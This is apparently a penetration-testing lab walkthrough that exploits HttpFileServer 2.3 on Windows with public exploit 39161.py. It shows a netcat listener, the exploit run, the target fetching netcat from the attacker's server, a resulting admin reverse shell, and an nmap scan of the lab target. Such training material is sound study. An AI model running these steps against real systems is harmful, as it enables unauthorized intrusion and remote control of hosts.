 ```
nc -nvlp 1234
```

The port that we're going to be listening on, we specified within the exploit file here. 

The port that we're going to be listening on is 1234.

Within the first terminal, we can now execute or launch the exploit.

```
python 39161.py 10.4.23.75 80
```

The target IP address: 10.4.23.75

80: the port on which HTTP file server is running.

On the web server that we set up, you should see a few GET requests that will download the Netcat executable. So it downloads the Netcat executable.

And we shoule then receive a reverse shell on our Netcat listener.

Connection from the target system. And we have a command prompt session on the target.

```
C:\hfs>whoami
```

We have administrative access on the target system, which indeed is running Windows.

```
C:\hfs>systeminfo
```

We've been able to gain access to the target system through the use of a publicly available piece of exploit code. And we did not rely on utilizing the Metasploit Framework. There is a Metasploit module available that automates this entire process. But this is very important in the context of a penetration tester because you should be able to utilize exploit code that's available online or in this case, available on Kali Linux. You should be able to modify it based on your own parameters and environment. And it terms of executing it, we needed to run it more than one time. This is very important because it gives you a holistic view of exploitation rather than just relying on an automated exploitation framework like Metasploit.

# Windows: HTTP File Server
Target IP Address : 10.0.18.167

Kali Linux : 10.10.16.3

```
root@attackdefense:~# ifconfig
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.16.3  netmask 255.255.255.0  broadcast 10.10.16.255
        ether 02:42:0a:0a:10:03  txqueuelen 0  (Ethernet)
```

```
root@attackdefense:~# nmap -sV 10.0.18.167
Starting Nmap 7.70 ( https://nmap.org ) at 2023-04-10 19:41 IST
Nmap scan report for 10.0.18.167
Host is up (0.0023s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
```